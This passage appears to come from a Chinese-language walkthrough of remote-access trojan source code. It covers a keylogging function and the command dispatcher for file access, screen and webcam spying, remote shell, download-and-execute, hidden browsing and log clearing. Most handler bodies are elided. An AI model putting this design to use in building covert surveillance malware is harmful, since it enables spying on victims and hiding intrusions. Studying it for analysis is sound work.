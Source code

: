 该函数所做的工作就是记录被监控的电脑上的键盘输入，然后调用 **SaveInfo** 函数或存盘或发给控制端。



让我们继续来看 **CKernelManager::OnReceive()** 函数如何对解析后的数据包进行处理的：

```
//KernelManager.cpp 136行
void CKernelManager::OnReceive(LPBYTE lpBuffer, UINT nSize)
{
    switch (lpBuffer[0])
    {
    //服务端可以激活开始工作
    case COMMAND_ACTIVED:
    {
        //代码省略...
        break;
    case COMMAND_LIST_DRIVE: // 文件管理
        m_hThread[m_nThreadCount++] = MyCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Loop_FileManager, (LPVOID)m_pClient->m_Socket, 0, NULL, false);
        break;
    case COMMAND_SCREEN_SPY: // 屏幕查看
        //代码省略...
        break;
    case COMMAND_WEBCAM: // 摄像头
        //代码省略...
        break;
        //	case COMMAND_AUDIO: // 语音
        //代码省略...
        //		break;
    case COMMAND_SHELL: // 远程shell
        //代码省略...
        break;
    case COMMAND_KEYBOARD:
        //代码省略...
        break;
    case COMMAND_SYSTEM:
        //代码省略...
        break;
    case COMMAND_DOWN_EXEC: // 下载者
        //代码省略...
        SleepEx(101, 0); // 传递参数用
        break;
    case COMMAND_OPEN_URL_SHOW: // 显示打开网页
        //代码省略...
        break;
    case COMMAND_OPEN_URL_HIDE: // 隐藏打开网页
        //代码省略...
        break;
    case COMMAND_REMOVE: // 卸载,
        //代码省略...
        break;
    case COMMAND_CLEAN_EVENT: // 清除日志
    	//代码省略...
        break;
    case COMMAND_SESSION:
        //代码省略...
        break;
    case COMMAND_RENAME_REMARK: // 改备注
        //代码省略...
        break;
    case COMMAND_UPDATE_SERVER: // 更新服务端
        //代码省略...
        break;
    case COMMAND_REPLAY_HEARTBEAT: // 回复心跳包
        //代码省略...
```